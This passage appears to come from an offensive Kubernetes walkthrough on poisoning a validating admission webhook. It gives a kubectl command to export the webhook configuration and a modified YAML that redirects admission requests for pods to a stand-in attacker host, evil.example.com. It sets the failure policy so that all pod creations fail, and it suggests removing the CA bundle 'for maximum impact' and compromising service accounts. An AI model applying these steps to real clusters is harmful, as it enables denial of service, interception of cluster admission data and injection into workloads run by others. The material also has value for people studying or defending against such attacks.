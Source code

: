 If you have the necessary permissions, you can poison the webhook by modifying its configuration. First, extract the current configuration:

```bash
kubectl get validatingwebhookconfiguration <webhook-name> -o yaml > original_webhook.yaml
```

**Explanation:**

This command retrieves the YAML definition of a specific validating webhook (replace `<webhook-name>` with the actual name found in Step 2.1) and saves it to a file named `original_webhook.yaml`.  This is important for restoring the original configuration later.  You will have to perform this step for any webhook you wish to poison.

**Expected Output:**

The command will create a file named `original_webhook.yaml` containing the webhook's configuration.

**What to Look For:**

Successful creation of the `original_webhook.yaml` file.

Next, modify the webhook configuration to point to a malicious endpoint.  For demonstration, we'll assume you have a simple HTTP server running at `http://evil.example.com:8080` that will log the incoming requests. We will change the url field in our `original_webhook.yaml` file with this information. This could be a webhook designed to drop all admission requests or inject malicious code into pods.  If `caBundle` is present, you can either remove it (for maximum impact, if the validating webhook does not check the certificate) or replace it with invalid data. If the webhook uses service account authentication, it might be possible to compromise the service account associated with the validating webhook.

```yaml
apiVersion: admissionregistration.k8s.io/v1
kind: ValidatingWebhookConfiguration
metadata:
  name: <webhook-name>
webhooks:
- admissionReviewVersions:
  - "v1"
  clientConfig:
    url: "http://evil.example.com:8080" # Modified URL
    service: null #Ensure service field is null to prevent errors
  failurePolicy: Fail #Ensure failure policy is set to fail so all requests fail
  matchPolicy: Exact
  name: webhook.example.com
  namespaceSelector: {}
  objectSelector: {}
  rules:
  - apiGroups:
    - "*"
    apiVersions:
    - "*"
    operations:
    - CREATE
    - UPDATE
    resources:
    - pods
    scope: "*"
  sideEffects: None
  timeoutSeconds: 10
```
